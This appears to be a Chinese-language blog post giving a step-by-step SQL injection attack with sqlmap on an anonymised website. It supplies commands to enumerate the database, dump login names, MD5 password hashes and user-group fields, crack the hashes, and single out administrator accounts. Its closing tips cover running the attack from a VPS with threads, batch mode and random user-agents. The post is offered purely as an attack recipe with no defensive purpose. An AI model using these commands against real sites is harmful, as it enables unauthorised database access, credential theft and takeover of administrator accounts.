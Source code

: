 本地 windows 下跑 sqlmap(本地网不稳定，容易中断，建议可以用在 VPS 上做 sql 注入，更安全更稳定) 

为了手机里方便看，命令我做了换行

跑用户

```
python2 sqlmap.py -u http://xx.xx.xx/xx.php?pkey=6  
 --technique=BE --current-user
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONS790Z6WjIav104urbNWjJc8ick34TQ5zvQs9Y6y8DLutrQEibqDpFnup2rTeTH3TUPOCiayQibXIp8LQ/640?wx_fmt=png)

爆库

```
python2 sqlmap.py -u http://xx.xx.xx/xx.php?pkey=6  
--technique=BE --current-db
```

爆表

```
python2 sqlmap.py -u http://xx.xx.xx/xx.php?pkey=6  
--technique=BE -D kauyan –tables
```

爆字段

```
python2 sqlmap.py -u http://xx.xx.xx/xx.php?pkey=6  
--technique=BE -D xx -T xx –columns
```

爆数据（login 登录账号，pwd 密码 md5 加密，user_group 用户组管理员值为 admin）

```
python2.7 sqlmap.py -u http://xx.xx.xx/xx.php?pkey=6  
--technique=E -D xx -T xx -C login,pwd,pkey,user_group –dump
```

数据

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONS790Z6WjIav104urbNWjJcPX5DOzVfq3D16OMIljI3e7hYwowaXxjVrQJxdKwb1ONAiaXSqsIyKuA/640?wx_fmt=png)

密码是 md5 加密，需要解密（此处是付费解密的） 

解密后获得密码明文

注意需要找到用户为管理组（admin）的用户，这样才有管理员权限  

在 vps 上跑 sqlmap 不易中断，速度较快

设置参数后，效率会大大增加

```
--current-db
--current-user
--is-dba 是否是dba
--threads=3 开3个进程
--batch 批量执行默认选项
–random-agent  使用随机选定的User-Agent头
```

